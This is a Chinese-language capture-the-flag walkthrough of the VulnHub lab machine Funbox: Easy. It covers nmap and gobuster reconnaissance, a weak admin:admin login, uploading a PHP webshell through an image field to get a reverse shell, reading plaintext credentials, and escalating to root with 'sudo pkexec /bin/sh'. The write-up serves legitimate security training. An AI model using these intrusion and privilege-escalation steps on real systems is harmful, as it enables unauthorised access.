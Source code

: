 # Funbox: Easy

2024-5-17 https://www.vulnhub.com/entry/funbox-3,526/

difficulty: easy

## IP

192.168.5.29

## Scan

Open Port -> 22,80,33060

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b2d8516ec584051908ebc8582713132f (RSA)
|   256 b0de9703a72ff4e2ab4a9cd9439b8a48 (ECDSA)
|_  256 9d0f9a26384f0180a7a6809dd1d4cfec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_gym
|_http-title: Apache2 Ubuntu Default Page: It works
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

先对 80web 服务进行目录扫描：

```
gobuster dir -u http://192.168.5.29/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e

http://192.168.5.29/.php                 (Status: 403) [Size: 277]
http://192.168.5.29/.html                (Status: 403) [Size: 277]
http://192.168.5.29/index.html           (Status: 200) [Size: 10918]
http://192.168.5.29/index.php            (Status: 200) [Size: 3468]
http://192.168.5.29/header.php           (Status: 200) [Size: 1666]
http://192.168.5.29/profile.php          (Status: 302) [Size: 7247] [--> http://192.168.5.29/index.php]
http://192.168.5.29/store                (Status: 301) [Size: 312] [--> http://192.168.5.29/store/]
http://192.168.5.29/admin                (Status: 301) [Size: 312] [--> http://192.168.5.29/admin/]
http://192.168.5.29/registration.php     (Status: 200) [Size: 9409]
http://192.168.5.29/logout.php           (Status: 200) [Size: 75]
http://192.168.5.29/robots.txt           (Status: 200) [Size: 14]
http://192.168.5.29/dashboard.php        (Status: 302) [Size: 10272] [--> http://192.168.5.29/index.php]
http://192.168.5.29/secret               (Status: 301) [Size: 313] [--> http://192.168.5.29/secret/]
http://192.168.5.29/leftbar.php          (Status: 200) [Size: 1837]
http://192.168.5.29/forgot-password.php  (Status: 200) [Size: 2763]
http://192.168.5.29/.html                (Status: 403) [Size: 277]
http://192.168.5.29/.php                 (Status: 403) [Size: 277]
http://192.168.5.29/gym                  (Status: 301) [Size: 310] [--> http://192.168.5.29/gym/]
http://192.168.5.29/hitcounter.txt       (Status: 200) [Size: 1]
http://192.168.5.29/server-status        (Status: 403) [Size: 277]
```

发现可访问的链接比较多，根据靶场提示，可能很多都是兔子洞。

通过进行分析，发现了 http://192.168.5.29/admin/ 这个 crm 的登陆用户存在 sql 注入，但是没有可以插入 webshell 的地方。

http://192.168.5.29/store/admin.php 这个入口存在弱密码，用户凭据为 admin:admin

登陆后，添加新的书籍，在 Image 处，上传自己的 php 后门代码。在 http://192.168.5.29/store/bootstrap/img/ 中就能看到我们上传的后门代码，在 kali 上监听 8888 端口，访问我们的 webshell 后门页面，就能得到反弹的链接。

在 /home/tony 目录中发现线索：

```
www-data@funbox3:/home/tony$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

tony 的 ssh 密码为：yxcvbnmYYY

su tony 切换到该用户。

sudo -l 发现 tony 用户有很多可执行命令：

```
(root) NOPASSWD: /usr/bin/yelp
(root) NOPASSWD: /usr/bin/dmf
(root) NOPASSWD: /usr/bin/whois
(root) NOPASSWD: /usr/bin/rlogin
(root) NOPASSWD: /usr/bin/pkexec
(root) NOPASSWD: /usr/bin/mtr
(root) NOPASSWD: /usr/bin/finger
(root) NOPASSWD: /usr/bin/time
(root) NOPASSWD: /usr/bin/cancel
(root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

```
tony@funbox3:~$ sudo pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

最终得到了 root 权限：

```
# cat root.flag
 __________          ___.                      ___________
\_   _____/_ __  ____\_ |__   _______  ___ /\  \_   _____/____    _________.__.
 |    __)|  |  \/    \| __ \ /  _ \  \/  / \/   |    __)_\__  \  /  ___<   |  |
 |     \ |  |  /   |  \ \_\ (  <_> >    <  /\   |        \/ __ \_\___ \ \___  |
 \___  / |____/|___|  /___  /\____/__/\_ \ \/  /_______  (____  /____  >/ ____|
     \/             \/    \/            \/             \/     \/     \/ \/

Made with ❤ from twitter@0815R2d2. Please, share this on twitter if you want.
```
